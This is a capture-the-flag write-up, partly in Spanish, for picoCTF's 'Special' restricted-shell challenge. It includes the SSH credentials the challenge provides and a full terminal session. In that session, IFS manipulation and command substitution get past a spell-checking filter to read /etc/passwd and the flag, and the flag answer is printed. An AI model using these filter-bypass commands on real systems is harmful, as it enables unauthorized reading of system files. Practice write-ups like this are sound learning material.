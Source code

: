 # special

### Description

Don't power users get tired of making spelling mistakes in the shell? Not anymore! Enter Special, the Spell Checked Interface for Affecting Linux. Now, every word is properly spelled and capitalized... automatically and behind-the-scenes! Be the first to test Special in beta, and feel free to tell us all about how Special streamlines every development process that you face. When your co-workers see your amazing shell interface, just tell them: That's Special (TM)Start your instance to see connection details.

Additional details will be available after launching your challenge instance.

Start your instance to see connection details.
`ssh -p 54627 ctf-player@saturn.picoctf.net`
`The password is d137d16e

### 1 Hints 

* Experiment with different shell syntax.


## Solución

Ingresamos nuestra dirección ssh proporcionada, ponemos la contraseña y una vez dado los permisos, se ejecutó un comando que manipulaba la variable `IFS` para ver el contenido del archivo `/etc/passwd`, lo que le permitió observar los usuarios del sistema. 
Luego, se intentó leer el archivo `blargh/flag.txt` mediante un comando que no se ejecutó correctamente, pero de igual manera nos mostro nuestra respectiva flag:

```
jazmin@DESKTOP-1CBQJ6D:~$ ssh -p 54627 ctf-player@saturn.picoctf.net
The authenticity of host '[saturn.picoctf.net]:54627 ([13.59.203.175]:54627)' can't be established.
ECDSA key fingerprint is SHA256:QnAZA/SzXGs8PlYucCvZX2veeskyyebWFDKU84sYgME.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[saturn.picoctf.net]:54627,[13.59.203.175]:54627' (ECDSA) to the list of known hosts.
ctf-player@saturn.picoctf.net's password:
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 6.5.0-1023-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Special$ IFS=];b=cat]/etc/passwd;$b
IFS=];b=cat]/etc/passwd;$b
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
ctf-player:x:1000:1000::/home/ctf-player:/usr/local/Special.py

Special$ $(IFS=];b=cat]blargh/flag.txt;$b)
$(IFS=];b=cat]blargh/flag.txt;$b)
sh: 1: picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}: not found
Special$ Connection to saturn.picoctf.net closed by remote host.
Connection to saturn.picoctf.net closed.
jazmin@DESKTOP-1CBQJ6D:~$
```

### Resultado: picoCTF{5p311ch3ck_15_7h3_w0r57_3befb794}
